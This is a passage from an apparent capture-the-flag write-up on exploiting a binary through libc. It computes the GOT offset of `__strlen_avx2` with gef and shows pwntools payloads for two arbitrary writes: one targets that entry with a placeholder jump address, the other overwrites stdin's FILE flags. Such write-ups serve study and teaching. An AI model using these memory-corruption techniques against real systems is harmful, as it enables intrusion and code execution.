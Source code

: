 Now we can check that the function is correctly called, we can follow the execution from the `malloc_printer`:

![good_strlen](images/good_strlen.png)

Alright, so we can definitely target `__strlen_avx2`!

So now we just have to compute the offset of the GOT entry from the libc base to get the good address:

```bash
gef> p 0x7ffff7df6080 - 0x00007ffff7c00000
$8 = 0x1f6080
```

Thus, we have to write at `libc.address + 0x1f6080`.

Here is our payload for the first write:

```py
strlen_avx2 = libc.address + 0x1f6080
jump = 0x4141414141414141

p.sendline(f"{strlen_avx2} {jump}".encode())
```

<hr>

**Notes**:

- For now we jump on `0x4141414141414141` for testing purpose, we'll complete the exploit after, don't worry!
- At this point, we need the libc base address computed from `system` leak, this part will be in the final exploit because it is just python stuff

<hr>


### 2️⃣ Second write

Now the second write has to pollute stdin so the last write will trigger our call to `malloc_printer`.

To do so, we just do as we did before to call `malloc_printer`, that is overwriting stdin flags by `0x4141414141414141`.

Here is our payload for the second write:

```py
p.sendline(f"{libc.sym['_IO_2_1_stdin_']} {0x4141414141414141}".encode())
```
